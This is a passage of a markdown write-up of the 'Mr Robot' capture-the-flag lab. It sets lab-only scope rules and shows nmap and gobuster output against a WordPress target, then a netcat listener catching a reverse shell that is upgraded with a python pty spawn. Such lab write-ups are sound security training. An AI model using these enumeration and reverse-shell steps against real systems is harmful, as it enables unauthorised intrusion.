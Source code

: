 ````markdown
- **Disallowed actions:** Attacks on infrastructure outside the lab, persistent backdoors outside lab scope.

---

## 2. Evidence: Command outputs (from transcript)

![mr.robot3](images/mr.robot3.png)

**Nmap (initial):**
```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ nmap 10.10.199.99 
Starting Nmap 7.93 ( https://nmap.org ) at 2025-11-01 01:50 EDT
Nmap scan report for 10.10.199.99 (10.10.199.99)
Host is up (0.093s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 7.43 seconds
````

**Gobuster (directory enumeration):**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ gobuster -u 10.10.199.99 -w /usr/share/wordlists/dirb/common.txt dir
...
[+] Url:                     http://10.10.199.99
[+] Method:                  GET
[+] Threads:                  10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
Starting gobuster in directory enumeration mode
...
/.hta                 (Status: 403)
/.htaccess            (Status: 403)
/.htpasswd            (Status: 403)
/0                    (Status: 301) [--> http://10.10.199.99/0/]
/admin                (Status: 301) [--> http://10.10.199.99/admin/]
/blog                 (Status: 301) [--> http://10.10.199.99/blog/]
/dashboard            (Status: 302) [--> http://10.10.199.99/wp-admin/]
/index.html           (Status: 200) [Size: 1188]
/index.php            (Status: 301) [--> http://10.10.199.99/]
```

**Netcat listener & reverse shell (snippet):**

```text
┌──(kali㉿kali)-[~/Desktop/mrrobot]
└─$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.23.168.139] from (UNKNOWN) [10.10.199.99] 54086
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@ip-10-10-199-99:/$ whoami
daemon
```

